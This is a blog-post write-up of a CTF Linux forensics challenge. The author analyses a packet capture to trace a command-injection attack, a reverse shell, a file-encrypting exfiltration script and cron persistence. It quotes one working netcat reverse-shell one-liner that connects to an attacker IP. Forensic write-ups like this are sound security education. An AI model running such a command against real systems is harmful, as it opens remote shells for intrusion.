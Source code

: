 ```yaml
---
layout: post
title: "iTREXC2023 - Compromised"
date: 2023-10-22
categories: ["CTF WriteUp]
---
```


**Note: This is my write-up for one of the forensic challenges in Cyber Security Challenge competition organized by iTREXC (4th International Innovation, Technology & Research Exhibition and Conference). This "Compromised" challenge is in Linux Forensic category. The difficulty of this "Compromised" challenge is Medium.**

For this "Compromised" challenge, we were given a `.pcap` (packet capture) file named `traffic.pcap`. We can open the file with Wireshark and we can filter for HTTP traffic. We can see that the attacker make a GET request to the web server asking for `/images/date.php`.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-filter.png){:.align-center}

The attacker then exploit a command injection vulnerability through `/images/date.php`. The reverse shell payload establish a connection to an IP address `159.223.43.45` on port `4443`.

- `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 159.223.43.45 4443 >/tmp/f`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-post.png){:.align-center}

We can follow the TCP stream of the reverse shell connection :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-follow-tcp-stream.png){:.align-center}

We can see that the compromised server established a connection to `159.223.43.45`, which we believe to be an attacker's remote server. Following the TCP stream of the reverse shell connection, we can see what's the attacker does in the compromised server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-tcp-stream.png){:.align-center}

The attacker navigate to `/home/nbs` and then download a file (`jahak.sh`) from the attacker's remote server to the compromised server. The `jahak.sh` file is a bash script that is used by the attacker to encrypt the document files in the compromised server using XOR encryption and transfer the files to the attacker's remote server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-get.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak-http.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak.png){:.align-center}

The attacker encrypt the `flag.txt` and  `important.txt` file :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-encrypted-file.png){:.align-center}

The attacker create a cronjob to automatically run the malicious script.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-path.png){:.align-center}

There is one question that ask hash of the webshell that being access by the attacker and this is the answer :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object-file.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-ls.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-file-hash.png){:.align-center}
